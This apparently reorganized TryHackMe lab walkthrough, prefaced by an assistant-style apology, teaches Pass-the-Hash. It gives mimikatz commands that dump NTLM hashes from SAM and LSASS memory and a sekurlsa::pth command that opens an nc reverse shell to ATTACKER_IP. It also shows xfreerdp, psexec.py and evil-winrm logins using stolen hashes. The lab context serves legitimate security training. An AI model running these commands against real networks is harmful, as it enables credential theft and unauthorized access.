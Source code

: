 Apologies for the confusion. Here is the reorganized structure with the titles in bold:

**Pass-the-Hash (PtH)** is a technique used to authenticate to a system without knowing the plaintext password by using the NTLM password hash instead. This method is applicable when the Windows domain is configured to use NTLM authentication.

**Extracting NTLM hashes from local SAM:**

1. Open PowerShell on THMJMP2 and run the following commands with mimikatz:
   ```
   mimikatz # privilege::debug
   mimikatz # token::elevate
   mimikatz # lsadump::sam
   ```
   This method will provide you with NTLM hashes of local users on the machine. Domain user hashes will not be available.

**Extracting NTLM hashes from LSASS memory:**

2. Open PowerShell on THMJMP2 and run the following commands with mimikatz:
   ```
   mimikatz # privilege::debug
   mimikatz # token::elevate
   mimikatz # sekurlsa::msv
   ```
   This method will allow you to extract NTLM hashes of both local users and domain users who have recently logged onto the machine.

**Performing a PtH attack:**

Once you have the NTLM hashes, you can perform a PtH attack using mimikatz. Inject an access token for the victim user on a reverse shell or any desired command by running the following commands:
```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```
Make sure to revert to the original token privileges with `token::revert` before performing the PtH attack. This will spawn a new reverse shell, allowing you to execute commands as the victim user.

To receive the reverse shell, run a reverse listener on your AttackBox using the following command:
```
user@AttackBox$ nc -lvp 5555
```
If you run the `whoami` command on this shell, it will show the original user you were using before the PtH attack. However, any commands executed from this shell will use the injected credentials.

**Passing the Hash Using Linux:**

If you have access to a Linux box (like your AttackBox), you can use built-in tools to perform PtH using different protocols:

- Connect to RDP using PtH: `xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
- Connect via psexec using PtH: `psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`
  (Note: Only the Linux version of psexec supports PtH)
- Connect to WinRM using PtH: `evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`

These commands demonstrate how to perform PtH using Linux tools for RDP, psexec, and WinRM protocols, depending on the available services.